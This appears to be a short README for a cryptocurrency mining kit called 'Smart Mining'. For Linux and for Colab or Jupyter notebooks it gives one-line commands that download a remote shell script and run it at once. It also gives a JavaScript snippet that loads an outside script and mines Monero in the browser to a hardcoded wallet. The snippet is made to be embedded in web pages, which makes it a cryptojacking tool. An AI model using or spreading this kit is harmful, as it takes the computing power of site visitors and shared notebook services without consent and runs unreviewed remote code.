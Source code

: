 # `Smart Mining`
## `Linux`
```
wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `Google Colab` Or `Jupyter Notebook`
```
! wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `XMonitizer`
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "Miner";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
# `For Personal Use Only`
